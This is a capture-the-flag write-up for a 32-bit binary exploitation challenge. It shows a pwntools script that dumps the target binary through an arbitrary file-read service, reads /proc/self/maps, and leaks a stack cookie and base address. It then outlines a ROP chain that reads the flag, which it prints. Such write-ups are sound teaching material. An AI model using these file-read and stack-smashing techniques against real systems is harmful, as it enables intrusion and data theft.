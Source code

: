 # Service

The service running can read a file or memory, multiple times in a single run.

Can bind to port 1337 locally as well.
```bash
./sc -b 1337 undutmaning-ab915c4cdadc-allmant-0.chals.io
```

![](screenshots/1.png)

Crashing on non-existing files or invalid memory addresses.

With a bunch of attempts, there is a size limit of 144 bytes for the read.

![](screenshots/2.png)

Reading the ./flag is not allowed. Trying to bypass it with `./././` or similar doesn't work.

# Binary

The size limit can be bypassed with a size of `-1`, but it makes the program crash for larger data after it is printed.

Reading the binary can still be done.

```bash
from pwn import remote

def dump(filename, size=-1):
    P = remote('undutmaning-ab915c4cdadc-allmant-0.chals.io', 443, ssl=True)
    P.sendline(b"1")
    P.recvuntil(b"Filename: ")
    P.sendline(filename)
    P.recvuntil(b"nr of bytes: ")
    P.sendline(str(size).encode())
    suff = b"EOF "+filename
    data = P.recvuntil(suff)[:-len(suff)-1]
    return data

f = open("allmant_underligt_extraordinart_verktyg", "wb")
f.write(dump(b"/proc/self/exe"))
f.close()
```

The binary can be used locally for debug and reversing.

[allmant_underligt_extraordinart_verktyg](workdir/allmant_underligt_extraordinart_verktyg)

# Leak

The memory addresses are not known. Trying to read the full `/proc/self/maps` crashing the program and the first 144 bytes are useless. Checking locally: `*** stack smashing detected ***: terminated`.

<details>
  <summary>/proc/self/maps</summary> 

```
(1) Read file
(2) [DEBUG] Read mem
Choice: 1
Filename: /proc/self/maps
nr of bytes: 144
10000000-10001000 ---p 00000000 00:00 0
10002000-10003000 ---p 00000000 00:00 0
10004000-10005000 ---p 00000000 00:00 0
10006000-10007000 ---
EOF /proc/self/maps
(1) Read file
(2) [DEBUG] Read mem
Choice: 1
Filename: /proc/self/maps
nr of bytes: -1
10000000-10001000 ---p 00000000 00:00 0 
10002000-10003000 ---p 00000000 00:00 0 
10004000-10005000 ---p 00000000 00:00 0 
10006000-10007000 ---p 00000000 00:00 0 
10008000-10009000 ---p 00000000 00:00 0 
1000a000-1000b000 ---p 00000000 00:00 0 
1000c000-1000d000 ---p 00000000 00:00 0 
1000e000-1000f000 ---p 00000000 00:00 0 
10010000-10011000 ---p 00000000 00:00 0 
10012000-10013000 ---p 00000000 00:00 0 
10014000-10015000 ---p 00000000 00:00 0 
10016000-10017000 ---p 00000000 00:00 0 
10018000-10019000 ---p 00000000 00:00 0 
1001a000-1001b000 ---p 00000000 00:00 0 
1001c000-1001d000 ---p 00000000 00:00 0 
1001e000-1001f000 ---p 00000000 00:00 0 
10020000-10021000 ---p 00000000 00:00 0 
10022000-10023000 ---p 00000000 00:00 0 
10024000-10025000 ---p 00000000 00:00 0 
10026000-10027000 ---p 00000000 00:00 0 
10028000-10029000 ---p 00000000 00:00 0 
1002a000-1002b000 ---p 00000000 00:00 0 
1002c000-1002d000 ---p 00000000 00:00 0 
1002e000-1002f000 ---p 00000000 00:00 0 
10030000-10031000 ---p 00000000 00:00 0 
56636000-56637000 r--p 00000000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56637000-56638000 r-xp 00001000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56638000-56639000 r--p 00002000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
56639000-5663a000 r--p 00002000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
5663a000-5663b000 rw-p 00003000 00:1f3 18323051                          /code/allmant_underligt_extraordinart_verktyg
f7d1c000-f7d3c000 r--p 00000000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7d3c000-f7eba000 r-xp 00020000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7eba000-f7f3f000 r--p 0019e000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f3f000-f7f40000 ---p 00223000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f40000-f7f42000 r--p 00223000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f42000-f7f43000 rw-p 00225000 00:1f3 18322911                          /usr/lib32/libc.so.6
f7f43000-f7f4d000 rw-p 00000000 00:00 0 
f7f4f000-f7f51000 rw-p 00000000 00:00 0 
f7f51000-f7f54000 r--p 00000000 00:00 0                                  [vvar]
f7f54000-f7f55000 r-xp 00000000 00:00 0                                  [vdso]
f7f55000-f7f56000 r--p 00000000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f56000-f7f7b000 r-xp 00001000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f7b000-f7f8a000 r--p 00026000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f8a000-f7f8c000 r--p 00034000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
f7f8c000-f7f8d000 rw-p 00036000 00:1f3 18322908                          /usr/lib32/ld-linux.so.2
ffd94000-ffdd9000 rw-p 00000000 00:00 0                                  [stack]

EOF /proc/self/maps
```

Amongst the other proc files, `/proc/self/syscall` has some addresses including the stack and can fit in 144 bytes.

</details>
<br />

![](screenshots/3.png)

# Memory

Reading some memory addresses with the debug functionality is possible now. Although only once per run.

![](screenshots/5.png)

## Stack cookie

From earlier stack smash, it can be seen there are stack cookies used.

The leaked address `+0x90` has the stack cookie.

![](screenshots/4.png)

## Stack frame
The saved `ebp` can be used to calculate the previous `ebp` as well.

## Base address

Walking through the stack and using the saved return address near the cookie, the base address of the binary can be also calculated. Mapping the ghidra offsets as well.

```
base_addr = original_ret - 0x128 - 0x00001827
base_addr_ghidra = base_addr - 0x00010000
```

# Exploit

We can smash the stack now and build a ROP chain, as we can fix the stack cookie and stack frame. 

![](screenshots/6.png)

Calling into the middle of the `read_file` with the `./flag` as parameter. 

Some things had to be fixed for correct run, `ebx` should contain the `got` address and `ebp` was reused from previous run.

See [exploit.py](workdir/exploit.py) for details.

![](screenshots/7.png)

# Flag
`undut{hej_h3j_hej_5k1cka_hit_AUXV_sl4ddeN}`
